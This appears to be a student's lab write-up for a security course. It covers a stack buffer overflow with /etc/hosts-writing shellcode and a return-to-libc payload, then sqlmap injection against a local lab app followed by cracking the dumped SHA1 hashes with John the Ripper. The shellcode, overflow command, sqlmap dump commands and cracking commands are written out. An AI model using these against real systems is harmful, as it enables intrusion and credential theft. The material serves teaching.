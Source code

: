 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)

- For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)
- Then i will compile C asm program and C program to executable code
![alt text](image-37.png)
- I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
- The stack frame of main function
![alt text](image-32.png)
- The pwd of the copy_file: 
![alt text](image-40.png)
- Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
- Then i will set root for user to write:
![alt text](image-50.png)
- I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)
- Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

- Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

- Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

- So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`
- Before i run this command:
![alt text](image-51.png)

- And the output when i run this command: 

  ![alt text](image-49.png)

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-55.png)
- Install sqlmap.
`git clone https://github.com/sqlmapproject/sqlmap.git`
and then cd sqlmap
![alt text](image-56.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- First after i installed sqlmap, then i use this command to get information about all available databases: 
  `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --dbs`
- Result:
  ![alt text](image-52.png)
  ![alt text](image-53.png)
  ![alt text](image-54.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Following this step , i use command `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables` to get table contain users information
  ![alt text](image-57.png)
  so i got a table name: **credential**
- So next step , i'm going to use this command: `python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users -T credential --dump` to got all infformation about users in that table 
  ![alt text](image-58.png)
  Result: we got all informations of users.
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- Regard to this step , i go to install John the Ripper first in website 
 ![alt text](image-59.png)
- Then i extract files to D and setting path for it in many step:
  1. Windown + R and type sysdm.cpl
  2. Choose advanced and click on Environtment Variables
  3. Choose Path and click EDit 
   ![alt text](image-60.png)
  4. click new and copy path of folder contain file john.exe
   ![alt text](image-61.png)
   Then we fishned
- Next step i create wordlist.txt with content in rockyou2021.txt is all of weakspassword and store in 
  ![alt text](image-63.png)
  - Content
  ![alt text](image-62.png)
- After that i will prepare this file `C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt
```
fdbe918bdae83000aa54747fc95fe0470fff4976
b78ed97677c161c1c82c142906674ad15242b2d4
a3c50276cb120637cca669eb38fb9928b017e9ef
995b8b8c183f349b3cab0ae7fccd39133508d2af
99343bff28a7bb51cb6f22cb20a618701a2c2f58
a5bdf35a1df4ea895905f6f6618e83951a6effc0
```
- To continue with process , i go into the path: `D:\john-1.9.0-jumbo-1-win64\run>` and use this command`john --incremental --fork=4 --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"` and to show password use: `john --show --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-64.png)
- Result:
![alt text](image-65.png)
-> we finshed lab , 
Note: wordlist in this case can not find password because less weakspassword in wordlist.txt
Command: `john --wordlist="D:\john-1.9.0-jumbo-1-win64\run\wordlist.txt" --fork=4 --format=Raw-SHA1 "C:\Users\ToanKhoa\AppData\Local\Temp\sqlmap1sem5xjz21548\sqlmaphashes-mnuhm7hu.txt"`
![alt text](image-66.png)



